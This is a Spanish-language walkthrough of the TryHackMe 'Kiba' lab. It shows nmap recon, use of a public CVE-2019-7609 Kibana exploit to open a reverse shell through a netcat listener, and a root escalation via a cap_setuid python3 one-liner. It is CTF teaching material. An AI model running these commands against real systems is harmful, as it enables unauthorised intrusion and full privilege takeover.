 Bienvenidos a otra maquina en modo facil de tryhackme. Utilizaremos nuestro reconocimiento de escaneo nmap para descubrir puertos abiertos. Usaremos esta informacion para navegar dentro de la interfaz de kiba del cual tendremos que investigar la version para luego buscar su correspondiente exploit y poder adentrarnos a su sistema. Por ultimo, escalaremos privilegios enumerando las capacidades dentro de sistema o bien podremos buscarlo manualmente para encontrar la brecha y escalar al usuario root.

# Recon
Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-07-01 04:58:39 EDT for 40s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT     STATE SERVICE      REASON         VERSION
22/tcp   open  ssh          syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http         syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
5044/tcp open  lxi-evntsvc? syn-ack ttl 63
5601/tcp open  esmagent?    syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.80%I=7%D=7/1%Time=649FEAD9%P=x86_64-pc-linux-gnu%r(Get
SF:Request,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nkb
SF:n-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c
SF:\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\x
SF:20close\r\nDate:\x20Sat,\x2001\x20Jul\x202023\x2008:59:05\x20GMT\r\n\r\
SF:n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x2
SF:0kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconten
SF:t-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-c
SF:ache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sat,\
SF:x2001\x20Jul\x202023\x2008:59:05\x20GMT\r\n\r\n{\"statusCode\":404,\"er
SF:ror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSe
SF:ssionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSer
SF:verCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSession
SF:Req,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad
SF:\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not\
SF:x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d0492328
SF:3ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\r
SF:\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x2
SF:0close\r\nDate:\x20Sat,\x2001\x20Jul\x202023\x2008:59:11\x20GMT\r\n\r\n
SF:{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fou
SF:nd\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPBi
SF:ndReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap


```

Nuestro escaneo de nmap nos muestra 4 puertos abiertos, del cual podemos navegar para poder investigar un poco mas esta maquina. Navegamos al puerto 5601 que nos movera a una interfaz kibana que es una herramienta de visualizacion y analisis de datos. http://IPTARGET:5601.

Nosotros como atacantes lo primero que tenemos que mirar es la version por la cual esta ejecutandose, si tenemos suerte y la version esta desactualizada, podemos abusarnos de esto y con suerte encontraremos un exploit.
En mi caso, yo encontre la version navegando al codigo fuente y buscando con `ctrl+f` la palabra clave `version` y nos mostrara que es una version **Kibana 6.5.4**

# Intrusion

Para empezar nuestro proceso de intrusion, tendremos que buscar el exploit correspondiente hasta encontrar el que funcione. Yo utilice este repositorio de github que contiene el exploit que me funciono para este maquina, este proceso siempre es de prueba y error hasta encontrar el que te funcione, o crearlo por tu cuenta.
https://github.com/Cr4ckC4t/cve-2019-7609

El uso es bastante sencillo, tendremos que poner la ip del servidor web con su correpondiente puerto, nuestro LHOST y LPORT. 
Antes de hacer este proceso, nos pondremos en escucha con el LPORT que eligamos.

```bash
nc -nvlp LPORT

./exploit.py http://IPTARGET:5601 LHOST LPORT
```

Una vez ejecutado, veremos que obtuvimos una respuesta exitosa y estaremos dentro del sistema como usuario kiba. 

# Priv.Escalation

Para nuestra escalada de privilegios, vamos a enumerar recursivamente las capacidades de  archivos y directorios dentro del sistema. 
Para esta tarea utilizamos `getcap -r /`. Con este comando, recibiremos demasiadas respuestas y nos va a hacer el trabajo mucho mas pesado, para corregir esto, agregaremos el siguiente patro. `getcap -r / 2>/dev/null`

Nos mostrara el siguiente archivo dentro del cual tendremos que investigar de que se trata 

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

Como es un archivo python, le diremos que nos cambie el UID y ejecutar una shell bash  como usuario raiz root.

`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

